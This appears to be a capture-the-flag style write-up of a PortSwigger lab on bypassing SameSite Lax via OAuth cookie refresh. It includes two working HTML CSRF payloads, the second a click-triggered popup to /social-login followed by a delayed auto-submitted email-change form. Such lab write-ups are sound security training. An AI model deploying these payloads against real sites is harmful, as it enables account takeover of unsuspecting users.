

### SameSite Lax bypass via cookie refresh : PRACTITIONER

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Logging in with the given credentials and pressing on email we see this page.



> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.


> We see that we can perform CSRF as there are session cookies, no unpredicatable parameters, and there is a relevant action to perform.
> Checking the `SameSite` restrictions by observing all requests and responses, but there is nothing stated.
> Hence, by default, the restrictions `SameSite=Lax` are applied.

> Studying the login process.
> Once choose to login, we are given a session cookie and are present at this page `/social-login`.


> The session cookie here: 


> This page then redirects us to a new page where we are logged in: `/oauth-callback`.


> Our session cookie is changed to a new value here, and this value is the one present with us when we use the account.


> What this gives us is a method to refresh the cookie value. Given that oauth has a 2 minute window before the `Lax` restrictions are set, we can use the cookie refresher to remove these `lax` restrictions and launch our attack.

> Creating the HTML payload that we will use to perfrom the CSRF attack.
```HTMl
<html> 
	<body> 
		<form action="https://0af900fa042c4c66874f62e000ac00cd.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="minsnew@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
> Adding this to exploit server, storing it, then viewing it to see if the email changes.

> If we logged in and then 2 mins later did this attack, then it wont change the email.
> The reason for that, is after 2 minutes, the oauth mechanism will rerun creating a new session cookie, as the `lax` restrictions have been applied.
> Trying again quickly, we see that the email has changed, and the new session cookie created before is included.
> This means that prior to 2 minutes, the `lax` restrictions were not yet applied, and the oath mechanism to support SSO allows for cross-site requests coming from top level navigation from POST requests.

> This works, but we need it to work regardless of the time constraint.
> We know that `/social-login` reiterates the oauth process and creates new cookies.
> Creating new cookies refreshes the timer and allows for cross-site attacks through top level navigation post requests.
> We will make our payload open the `/social-login` page, and then submit the form to change the email after a time delay to wait for the oauth mechanism to finish.

```HTML
<html> 
	<body> 
		<form action="https://0af900fa042c4c66874f62e000ac00cd.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="NEWNEW1@mins.com" /> 
		</form> 
	</body> 
	
	<script>
		window.onclick = () => { 
			window.open('https://0af900fa042c4c66874f62e000ac00cd.web-security-academy.net/social-login'); 
			setTimeout(formSubmitter, 5000);
		}
		function formSubmitter(){
			document.forms[0].submit();
		}
	</script>
</html>
```
> Only if the user clicks on the popped up window that we send to fetch the `/social-login` page, then the attack starts.
> If it was just a pop-up with `window.open`, it wouldn't work becuase pop ups are usually blocked. If the window wasn't opened, the authentication mechanism won't happen so the cookie wont change.
> If the cookie doesn't refresh, we wont be able to change the email.
> Adding the `window.onclick` helps us because if the window is clicked on by the user, the attack succeeds since the `/social-login` page is requested, changing the cookie, and completing our attack.

> Adding this payload to the development server and then storing and delivering to victim completes the lab.
> See the email changes after 5 seconds, and notice in the HTTP history the requests that are sent to start the authentication mechanism, then change the email with the same session cookie.

---

